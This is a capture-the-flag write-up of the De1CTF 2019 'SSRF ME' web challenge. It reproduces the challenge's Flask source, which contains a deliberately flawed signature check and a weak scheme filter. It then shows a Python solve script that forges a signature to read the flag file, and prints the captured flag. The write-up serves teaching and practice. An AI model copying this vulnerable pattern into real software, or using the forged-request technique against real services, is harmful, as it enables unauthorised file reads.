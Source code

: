 ```yaml
---
title: "SSRF ME - De1CTF 2019"
date: 2019-08-06T22:59:36+02:00
tags:
    - "CTF"
    - "De1CTF"
    - "Web"
    - "SSRf"
draft: true
---
```


### Description
> SSRF ME TO GET FLAG.

> http://139.180.128.86

For this challenge we are provided with a url that returns the following python
code:
```python
#!/usr/bin/env python
#encoding=utf-8
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
        result = {}
        result['code'] = 500
        if (self.checkSign()):
            if "scan" in self.action:
                tmpfile = open("./%s/result.txt" % self.sandbox, 'w')
                resp = scan(self.param)
                if (resp == "Connection Timeout"):
                    result['data'] = resp
                else:
                    print resp
                    tmpfile.write(resp)
                    tmpfile.close()
                result['code'] = 200
            if "read" in self.action:
                f = open("./%s/result.txt" % self.sandbox, 'r')
                result['code'] = 200
                result['data'] = f.read()
            if result['code'] == 500:
                result['data'] = "Action Error"
        else:
            result['code'] = 500
            result['msg'] = "Sign Error"
        return result

    def checkSign(self):
        if (getSign(self.action, self.param) == self.sign):
            return True
        else:
            return False


#generate Sign For Action Scan.
@app.route("/geneSign", methods=['GET', 'POST'])
def geneSign():
    param = urllib.unquote(request.args.get("param", ""))
    action = "scan"
    return getSign(action, param)


@app.route('/De1ta',methods=['GET','POST'])
def challenge():
    action = urllib.unquote(request.cookies.get("action"))
    param = urllib.unquote(request.args.get("param", ""))
    sign = urllib.unquote(request.cookies.get("sign"))
    ip = request.remote_addr
    if(waf(param)):
        return "No Hacker!!!!"
    task = Task(action, param, sign, ip)
    return json.dumps(task.Exec())
@app.route('/')
def index():
    return open("code.txt","r").read()


def scan(param):
    socket.setdefaulttimeout(1)
    try:
        return urllib.urlopen(param).read()[:50]
    except:
        return "Connection Timeout"



def getSign(action, param):
    return hashlib.md5(secert_key + param + action).hexdigest()


def md5(content):
    return hashlib.md5(content).hexdigest()


def waf(param):
    check=param.strip().lower()
    if check.startswith("gopher") or check.startswith("file"):
        return True
    else:
        return False


if __name__ == '__main__':
    app.debug = False
    app.run(host='0.0.0.0',port=80)
```

It's the code from the Flask app that is running on the website.

Basically it's a simple web app that allows us to do two things by using the
`action` parameter:

* scan: writes the content of a file located on the server in a file called
`result.txt`

* read: returns the content of the `result.txt` file

The `scan` and `read` actions are invoked by making a request to the `/De1ta`
endpoint.


The problem is that we need to provide a cookie called `sign` that is
remotely checked and must be in this format:
```
md5(secret_key + param + action)
```
`param` is used in conjuction with the `scan` action to indicate which file to
read.

We can see at the beginning of the python script that the `secret_key` is
generated using `os.urandom(16)`, so there's no way to bruteforce it.

Let's analyze the `/geneSign` endpoint.
It allows us to generate a signature using 'scan' as action:
```
md5(secret_key + param + 'scan')
```

The vulnerability in this application is located in the `Exec` function.
Instead of checking if the passed action is equal to `scan` or `read`, it
checks if the action contains `scan` and `read`.
We can exploit this by making a request to `geneSign` with 'flag.txtread' as
`param`, so that the following signature is generated:

```
secret_key + 'flag.txtread' + 'scan'
```
and then use the signature with `scan` and `read` actions to read the flag.
Here's the python code to do that:

```python
#!/usr/bin/env python3
import requests
import urllib

def getSign(param, action):
    params = {'param': param}
    cookies =  {'action': action}
    r = requests.get("http://192.168.43.204:8080/geneSign", params=params, cookies=cookies)
    return r.text.strip().replace('\n', '')

action = 'readscan'
sign = getSign('flag.txtread', '')

params = {'param': 'flag.txt'}
cookies = {'sign': sign, 'action': action}

r = requests.get("http://192.168.43.204:8080/De1ta", params=params, cookies=cookies)
print(r.text)
```

Let's run it:
```
$ ./solve.py
{"code": 200, "data": "de1ctf{27782fcffbb7d00309a93bc49b74ca26}\n"}
```

### Flag
```
de1ctf{27782fcffbb7d00309a93bc49b74ca26}
```
